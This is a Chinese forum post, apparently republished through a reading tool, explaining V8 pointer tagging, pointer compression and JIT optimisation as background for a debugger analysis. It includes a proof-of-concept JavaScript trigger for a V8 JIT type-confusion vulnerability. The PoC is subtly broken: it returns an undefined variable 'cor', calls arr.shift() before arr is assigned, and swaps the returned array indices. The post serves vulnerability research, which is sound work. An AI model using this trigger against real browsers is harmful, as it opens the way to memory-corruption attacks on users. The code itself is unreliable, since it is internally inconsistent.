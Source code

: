 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [bbs.pediy.com](https://bbs.pediy.com/thread-267128.htm)

0x1: 关于 v8 引擎

 1.1：v8 的指针为真实地址 +1，这样最后一位为 1，据说是为了加快寻址的速度，根据最后一位直接就可以判断该值其代表的是指针还是自然数。

这点在逆向的角度就是优化后生成的指令，

  a)  看到到有 add rX,1 这样的指令片段一般就是代表着开始对指针指向对象的初始化。

  b)  在内存中看到的数值为真实数值 *2。

 1.2：在比较新版本的 v8 对一个地址只是存储其低 4 位，要进行寻址的时候再加上其高八位。

 1.3：v8 在多次执行一个函数的时候，会触发 JIT（优化）过程，直接生成函数对应的机器码，这也是这篇分析文章的理论基础。

**0x2****：JIT 产生的优化指令分析：**

     分析环境为 Windows 10 x64

               v8 版本 8.9.25

               分析工具为 x64debug

              [https://bbs.pediy.com/thread-267049.htm](https://bbs.pediy.com/thread-267049.htm)

       紧跟着前面前面

        poc 为：

```
      const _arr = new Uint32Array([2**31]);
           function foo() {
                 var x = 1; 
                 x = (_arr[0] ^ 0) + 1; 
  
                 x = Math.abs(x); 
                 x -= 2147483647;
                 x = Math.max(x, 0); 
                 x -= 1;//
                 if(x==-1) x = 0; 
                 var corr = new Array(x);
                 arr.shift();
                 var arr = [1.1, 1.2, 1.3];
  
                 return [arr, cor];
            }
     console.log("ready !!");
     for(i=0;i<0x3000;i++)
     {
          foo();
     }
    %SystemBreak();
    var x = foo();
    var corr=x[0];
    var arr=x[1];
    %DebugPrint(corr);
    %DebugPrint(arr);
    console.log("Analyze Over!")

```
